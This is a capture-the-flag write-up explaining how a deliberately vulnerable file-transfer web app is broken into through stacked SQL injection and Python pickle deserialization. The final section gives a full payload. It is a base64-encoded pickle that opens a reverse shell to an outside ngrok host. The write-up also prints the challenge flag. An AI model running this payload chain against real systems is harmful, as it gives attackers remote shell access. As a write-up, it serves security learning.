






# MOVEable

Challenge Description: 
```
Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.
```

Based on the challenge title and description, this challenge may involve the [MOVEit vulnerability](https://unit42.paloaltonetworks.com/threat-brief-moveit-cve-2023-34362/) that allows unauthenticated users to gain access through SQL and RCE.

Looking at the source code attached in the challenge, we can observed multiple possible entry points.

First, the ```login_user()``` function sanitizes the parameters by replacing known 'bad characters' through the ```DBClean()``` function:


Next, the sql query is actually run using ```executescript()``` instead of an ```execute()``` function. 


The difference between the two is that ```execute()``` returns a value if the qeury finds a record, while ```executescript()``` does not but allows to execute multiple sql queries. This indicates that we don't necessarily need to login to the web app.

Furthermore, multiple functions in the source code also include the ```@login_required``, except for the ```download_file()``` function:


Looking further into this function, we can see a pickle loads function which reads the file if its found in the db that indicates a possible deserialization attack through the use of a file.


Based on the gathered information, we need to first inject a file into the db, then take advantage of the deserialization attack to execute our RCE payload.

To actually execute the RCE through the ```/download/<filename>/sessionid``` route, an active session record must be injected as well into the db.

After some trial and error, this payload was successfully executed and managed to create a reverse shell from the instance. Due to the input sanitation, whitespaces were replaced with tab (```\t```) characters and ' were replaced with \ characters.

```
asdf\;    INSERT    INTO    activesessions    (sessionid,username,timestamp)    VALUES    (\123123\,\admin\,NULL);    INSERT    INTO    files    VALUES    (\test\,\gASVtAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjJlweXRob24zIC1jICdpbXBvcnQgb3MscHR5LHNvY2tldDtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKCIwLnRjcC5hcC5uZ3Jvay5pbyIsMTk3NzApKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJyCUhZRSlC4=\,    \123123\);--
```

Once injected, execute the payload by typing in the route ```download/test/123123``` to obtain a reverse shell and the flag.





FLAG: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```